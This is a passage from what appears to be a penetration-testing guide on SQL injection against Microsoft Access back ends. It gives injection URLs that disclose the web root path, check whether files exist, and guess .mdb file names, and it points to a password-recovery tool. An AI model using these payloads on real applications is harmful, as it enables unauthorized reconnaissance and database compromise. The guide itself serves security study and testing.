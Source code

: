 ```sql
select MSysObjects.name
from MSysObjects
where
   MSysObjects.type In (1,4,6)
   and MSysObjects.name not like '~*'   
   and MSysObjects.name not like 'MSys*'
order by MSysObjects.name
```

However, note that is very typical to find SQL Injections where you **don't have access to read the table `MSysObjects`**.

## FileSystem access

### Web Root Directory Full Path

The knowledge of the **web root absolute path may facilitate further attacks**. If application errors are not completely concealed, the directory path can be uncovered trying to select data from an inexistent database.

`http://localhost/script.asp?id=1'+'+UNION+SELECT+1+FROM+FakeDB.FakeTable%00`

MS Access responds with an **error message containing the web directory full pathname**.

### File Enumeration

The following attack vector can be used to **inferrer the existence of a file on the remote filesystem**. If the specified file exists, MS Access triggers an error message informing that the database format is invalid:

`http://localhost/script.asp?id=1'+UNION+SELECT+name+FROM+msysobjects+IN+'\boot.ini'%00`

Another way to enumerate files consists into **specifying a database.table item**. **If** the specified **file exists**, MS Access displays a **database format error message**.

`http://localhost/script.asp?id=1'+UNION+SELECT+1+FROM+C:\boot.ini.TableName%00`

### .mdb File Name Guessing

**Database file name (.mdb)** can be inferred with the following query:

`http://localhost/script.asp?id=1'+UNION+SELECT+1+FROM+name[i].realTable%00`

Where **name\[i] is a .mdb filename** and **realTable is an existent table** within the database. Although MS Access will always trigger an error message, it is possible to distinguish between an invalid filename and a valid .mdb filename.

### .mdb Password Cracker

[**Access PassView**](https://www.nirsoft.net/utils/accesspv.html) is a free utility that can be used to recover the main database password of Microsoft Access 95/97/2000/XP or Jet Database Engine 3.0/4.0.

## References

